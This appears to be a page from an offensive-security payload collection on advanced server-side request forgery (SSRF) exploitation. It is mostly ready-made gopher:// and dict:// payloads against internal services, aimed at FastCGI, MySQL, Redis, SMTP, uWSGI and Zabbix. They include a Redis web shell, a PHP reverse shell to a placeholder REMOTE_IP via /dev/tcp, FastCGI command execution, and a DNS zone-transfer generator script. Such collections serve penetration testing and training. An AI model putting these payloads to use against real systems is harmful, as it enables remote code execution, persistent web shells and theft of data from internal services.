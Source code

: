 # SSRF Advanced Exploitation

> Some services (e.g., Redis, Elasticsearch) allow unauthenticated data writes or command execution when accessed directly. An attacker could exploit SSRF to interact with these services, injecting malicious payloads like web shells or manipulating application state.

## Summary

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#memcached)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [References](#references)

## DNS AXFR

Query an internal DNS resolver to trigger a full zone transfer (**AXFR**) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```

## FastCGI

Requires to know the full path of one PHP file on the server, by default the exploit is using `/usr/share/php/PEAR.php`.

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```

## Memcached

Memcached communicates over port 11211 by default. While it is primarily used for storing serialized data to enhance application performance, vulnerabilities can arise during the deserialization of this data.

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```

## MySQL

MySQL user should not be password protected.

```ps1
$ python2.7 ./gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: SELECT 123;

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%00%00%00%03%53%45%4c%45%43%54%20%31%32%33%3b%01%00%00%00%01
```

## Redis

> Redis is a database system that stores everything in RAM

The attacker changes Redis's dump directory to the web server's document root (`/var/www/html`) and renames the dump file to `file.php`, ensuring that when the database is saved, it generates a PHP file. They then create a Redis key (`mykey`) containing the web shell code, which enables remote command execution via HTTP GET parameters. Finally, the `SAVE` command forces Redis to write the current in-memory database to disk, resulting in the creation of the malicious web shell at `/var/www/html/file.php`.

```ps1
CONFIG SET dir /var/www/html
CONFIG SET dbfilename file.php
SET mykey "<?php system($_GET[0])?>"
SAVE
```

* Getting a webshell with `dict://`

    ```powershell
    dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
    dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
    dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
    dict://127.0.0.1:6379/SAVE
    ```

* Getting a PHP reverse shell with `gopher://`

    ```powershell
    gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
    gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
    gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
    gopher://127.0.0.1:6379/_save
    ```

## SMTP

Malicious actors can craft `gopher://` URLs to manipulate low-level protocols (like HTTP or SMTP) on internal systems.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

The following PHP script can be used to generate a page that will redirect to the `gopher://` payload.

```php
<?php
    $commands = array(
            'HELO victim.com',
            'MAIL FROM: <admin@victim.com>',
            'RCPT To: <hacker@attacker.com>',
            'DATA',
            'Subject: @hacker!',
            'Hello Friend',
            '.'
    );
    $payload = implode('%0A', $commands);
    header('Location: gopher://0:25/_'.$payload);
?>
```

## WSGI

Exploit using the Gopher protocol, full exploit script available at [wofeiwo/webcgi-exploits/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py).

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |                |
|-----------------------|-----------|----|----------------|
| key length            | (2 bytes) | 10 | (%0A%00)       |
| key data              | (m bytes) |    | UWSGI_FILE     |
| value length          | (2 bytes) | 12 | (%0C%00)       |
| value data            | (n bytes) |    | /tmp/test.py   |

## Zabbix

If `EnableRemoteCommands=1` is enabled in the Zabbix Agent configuration, it allows the execution of remote commands.

```ps1
gopher://127.0.0.1:10050/_system.run%5B%28id%29%3Bsleep%202s%5D
```

## References

* [SSRFmap - Introducing the AXFR Module - Swissky - June 13, 2024](https://swisskyrepo.github.io/SSRFmap-axfr/)
* [How I Converted SSRF to XSS in Jira - Ashish Kunwar - June 1, 2018](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
* [Pong [EN] | FCSC 2024 - Arthur Deloffre (@Vozec1) - April 12, 2024](https://vozec.fr/writeups/pong-fcsc2024-en/)
* [Pong [EN] | FCSC 2024 - Kévin - Mizu (@kevin_mizu) - April 13, 2024](https://mizu.re/post/pong)
